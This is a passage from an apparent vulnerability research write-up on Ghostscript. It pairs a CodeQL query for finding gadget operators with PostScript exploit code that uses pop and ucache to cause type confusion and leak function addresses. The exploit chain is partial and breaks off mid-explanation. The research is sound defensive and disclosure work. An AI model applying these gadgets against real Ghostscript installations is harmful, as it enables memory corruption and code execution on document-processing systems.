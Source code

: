 from Function f
where
  f.getName().matches("z%") and
  f.getFile().getAbsolutePath().matches("%/psi/%") and
  // Look for functions with a single parameter of the right type:
  f.getNumberOfParameters() = 1 and f.getParameter(0).getType().hasName("i_ctx_t *") and
  // Make sure the function is actually defined:
  exists(Stmt stmt | stmt.getEnclosingFunction() = f) and
  // And doesn't access `i_ctx_p`
  not exists(FieldAccess fa, Function f2 |
    fa.getQualifier().getType().hasName("i_ctx_t *") and
    fa.getEnclosingFunction() = f2 and f.calls*(f2)
   )
  // And doesn't dereference `i_ctx_p`
  and not exists(PointerDereferenceExpr expr, Variable v, Function f2 | 
    expr.getAnOperand() = v.getAnAccess() and
    v.getType().hasName("i_ctx_t *") and 
    expr.getEnclosingFunction() = f2 and
    f.calls*(f2)
  )
select f

My query uses some heuristics to identify PostScript operators. Their names normally start with z and are defined inside the psi directory. Also they they take an argument of type i_ctx_t *. I then look for functions that do not dereference the argument nor access its fields, either in itself or in functions that it calls. This query does not look for dereferences of the parameter i_ctx_p particularly, but just any variable of type i_ctx_t *, which is a good enough approximation.

You can run your own queries on over 130,000 GitHub,Bitbucket, and GitLab projects using CodeQL.

[EDIT]: You can also use our free CodeQL extension for Visual Studio Code. See installation instructions at https://securitylab.github.com/tools/codeql/.

Ghostscript is not developed on GitHub, Bitbucket, or GitLab. You can create a Ghostscript code snapshot as a database using the CodeQL CLI.

This query gives me 6 results:

ucache

The function ucache seems to be just what we need. Let’s try to put this together and see if it works. First set up the fake object pinst:

%Create the fake array pinst
/pinst 100 array def
%array that stores the pop-ucache gadget
/pop_ucache 100 array def
%put pop into pop_ucache to cause more type confusions by decrementing osp
systemdict /pop get pop_ucache exch 1 exch put
%put ucache in (no op) to avoid crash
systemdict /ucache get pop_ucache exch 0 exch put
%replace the functions with pop and ucache
pinst 1 pop_ucache put

Now we need to create a large array object and store it in the 39th element of pinst. It’s metadata tas will then be interpreted as the stack pointer address osp. I’ll use the PostScript operator put as its first element, then use pop to change its type to string and read off the address of the zput function.
